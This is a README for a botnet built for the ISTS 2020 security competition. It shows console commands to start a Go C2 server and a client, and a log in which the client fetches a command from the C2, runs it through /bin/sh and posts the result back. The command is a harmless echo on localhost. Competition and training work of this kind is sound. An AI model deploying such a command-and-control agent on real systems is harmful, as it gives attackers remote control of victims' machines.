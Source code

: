# i2bn

Botnet competition implementation for ISTS 2020

## Start Server

```console
$ go run ./cmd/agent/main.go server
2020/02/29 01:49:47 Starting server
...
```

## Start Client

```console
$ go run ./cmd/agent/main.go client "http://localhost:8080/callback" "127.0.0.1"
2020/02/29 01:49:59 Making client request
2020/02/29 01:49:59 requesting command from c2
2020/02/29 01:49:59 running command from c2 cmd="echo ggahgyvextpblhtdvamkgnpgexihtt"
2020/02/29 01:49:59 /bin/sh -c echo ggahgyvextpblhtdvamkgnpgexihtt
2020/02/29 01:49:59 cmd="echo ggahgyvextpblhtdvamkgnpgexihtt" result="ggahgyvextpblhtdvamkgnpgexihtt\n"
2020/02/29 01:49:59 posting results c2
2020/02/29 01:49:59 successfully posted to c2
...
```
